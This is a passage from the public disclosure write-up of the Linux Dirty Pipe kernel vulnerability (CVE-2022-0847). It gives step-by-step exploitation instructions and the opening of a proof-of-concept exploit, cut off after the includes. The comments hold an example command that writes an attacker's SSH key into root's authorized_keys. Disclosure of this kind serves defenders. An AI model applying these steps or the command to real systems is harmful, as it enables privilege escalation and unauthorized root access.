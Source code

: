 
To exploit this vulnerability, you need to:

1.  Create a pipe.
    
2.  Fill the pipe with arbitrary data (to set the `PIPE_BUF_FLAG_CAN_MERGE` flag in all ring entries).
    
3.  Drain the pipe (leaving the flag set in all `struct pipe_buffer` instances on the `struct pipe_inode_info` ring).
    
4.  Splice data from the target file (opened with `O_RDONLY`) into the pipe from just before the target offset.
    
5.  Write arbitrary data into the pipe; this data will overwrite the cached file page instead of creating a new anomyous `struct pipe_buffer` because `PIPE_BUF_FLAG_CAN_MERGE` is set.
    

To make this vulnerability more interesting, it not only works without write permissions, it also works with immutable files, on read-only btrfs snapshots and on read-only mounts (including CD-ROM mounts). That is because the page cache is always writable (by the kernel), and writing to a pipe never checks any permissions.

This is my proof-of-concept exploit:

```
/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
```